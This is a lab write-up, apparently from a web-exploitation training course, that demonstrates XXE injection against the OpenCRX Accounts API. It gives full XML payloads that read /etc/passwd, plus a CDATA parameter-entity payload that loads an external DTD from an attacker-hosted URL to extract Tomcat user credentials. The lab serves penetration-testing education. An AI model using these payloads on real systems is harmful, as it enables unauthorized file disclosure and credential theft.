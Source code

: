 ## Finding the Vector
To find the vector we need to understand what we're looking for.
For instance, we take the following xml code:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

Here, when the XML parser, parses the code, it will replace the entity reference "&lastname" with the entity's value "Replaced".
The result that would be displayed is "Tom Replaced".

Similarly, if we change the XML entity to an external entity, and reference a file on the server:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

A vulnerable parser will load the file contents and place them in the XML document. A vulnerable parser would read in the contents of /etc/passwd and place that content in between the _lastName_ tags.
If the _lastName_ contents are included in a server response or we can retrieve the data in another way after the XML has been parsed, we can use this vulnerability to read files on the server.
Ideally, we would inject the XXE payload into a field that is displayed in the web application.

## OpenCRX XXE
After spending some time familiarizing ourselves with the application, the Accounts page seems like a good fit because the Accounts API accepts XML input.
If we can successfully create accounts using XXE payloads in one of these fields, such as a name field, we should be able to view the results of our XXE attack in the web application.

We head over to Manage accounts -> Wizards -> Explore API:

![](../../03.%20Screenshots/t6-ss17.png)

On the API Explorer page for the Accounts API, we can use a POST to /account as the basis of our attack.

![](../../03.%20Screenshots/t6-ss18.png)

We can also change the Request body to application/xml to send XML data instead of JSON:

![](../../03.%20Screenshots/t6-ss19.png)

To understand what type of code goes in here, we can visit the [documentation](https://www.opencrx.org/opencrx/2.3/new.htm):

![](../../03.%20Screenshots/t6-ss20.png)

We will be using the same code as given in the example.
Filling the code in, and pressing execute, we view the response in burp, and we see that the code is indeed working:

![](../../03.%20Screenshots/t6-ss21.png)

We will move on and edit the code to include an internal entity:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

Executing the code, we see that the internal entity works:

![](../../03.%20Screenshots/t6-ss22.png)

With the internal entity working, we will modify our code, to include an external entity to reference a file on the underlying server and find out if we can retrieve the contents.
We will use the following xml code:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

Even though we run into an error:

![](../../03.%20Screenshots/t6-ss23.png)

Going through the full response, we see that even though an error occurred, we are still able to read the contents of the etc/passwd file:

![](../../03.%20Screenshots/t6-ss24.png)

The error we get is _java.sql.SQLDataException_, which usually indicates a data error occurred when an SQL statement was executed.
Our exploit was able to fetch the data of the file.
However, the contents of the file were too large for the column size, causing the error.
That does not matter as we're still able to extract the contents of the file we specified.

## Using CDATA
XML parsers can encounter errors, if we attempt to read files containing XML or key characters used in XML as delimiters, such as < and >.
We need to make sure that our XML content remains properly formatted after the file contents are inserted.
Much like HTML, XML supports character escaping.
We can't use this with external entities, however, since we aren't able to manipulate the content of the files we are attempting to include.

XML supports _CDATA_, sections in which internal contents are not treated as markup.
If we can wrap file contents in CDATA tags, the parser will not treat it as markup, resulting in a properly-formatted XML file.

The point of using CDATA is to fetch sensitive xml files on the server, such as the tomcat-users.xml file, which contains the apache TomEE user credentials.

We will create two new entities that will act as the opening and closing CDATA tags.
We will receive an XML parser error if we try to concatenate three entities together, so we'll need an additional entity to act as a "wrapper" for the CDATA entities and the file content entity.
However, we can't reference a single entity from another entity within the DTD in which they are defined.
Thus, we will be using parameter entities that can be referenced by the "wrapper" entity, in an external DTD file hosted on our attacker machine.
Our DTD file will look like so:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```

We will update our exploit to the following:

```XML
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://attackIP/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

Sending the code, and viewing the response, we see that the xml file:

![](../../03.%20Screenshots/t6-ss25.png)

We now have the credentials for all the users of the server.